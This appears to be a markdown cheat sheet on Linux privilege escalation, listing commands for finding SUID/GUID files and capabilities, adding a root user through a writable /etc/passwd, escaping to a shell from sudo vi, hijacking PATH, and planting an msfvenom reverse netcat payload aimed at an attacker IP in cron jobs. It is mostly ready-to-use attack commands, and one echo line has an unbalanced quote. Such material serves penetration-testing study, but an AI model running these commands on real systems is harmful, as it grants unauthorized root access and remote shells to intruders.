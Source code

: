 # [Linux] - PrivEsc

---

## Automatic enumerate

Execute **LinEnum.sh**

[Get LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

---

## SUID/GUID Files

Find SUID :

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /4000 -type f 2>/dev/null
```

Find GUID :

```bash
$ find / -perm -g=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /2000 -type f 2>/dev/null
```

---

## Capabilites

```bash
$ getcap -r / 2>/dev/null
```

---

## Exploiting a writable /etc/passwd

If /etc/passwd is writable, add an user with this follow line :

Before, we need to generated a password salty :

```bash
$ openssl passwd -1 -salt <salt> <password>
```

```bash
<user>:<salty_password>:0:0::/root:/bin/bash
```

---

## Use binary sudo (like sudo vi)

List what commands are you able to execute as a super user (example below with vi) :

```bash
$ sudo -l
[...]
(root) NOPASSWD: /usr/bin/vi
```

You can execute vi like this :

```bash
$ sudo /usr/bin/vi
```

Then, run this follow command :

```bash
!/bin/bash
```

---

## Show crontab

Execute LinEnum.sh or enumerate crontab :

```bash
$ ls -l /etc/cron*
```

If you a crontable file execute by higher user you can modify then with reverse shell payload for example :

Find a payload on GTFOBINS or you can "manually" create this :

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attacker_ip> lport=<listening_port> R
```

---

## PATH Variable

Overwrite the PATH variable

If we find a script run as higher privileges user but there we cant modify. You can see if this script run a "classic" command like ls.

If there is, write a new file with the name of this command :

```bash
echo "/bin/bash > /tmp/ls
```

And export the PATH variable of binaries :

```bash
export PATH=/tmp:$PATH
```

Then execute the initial script.

---

## Ressources

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation
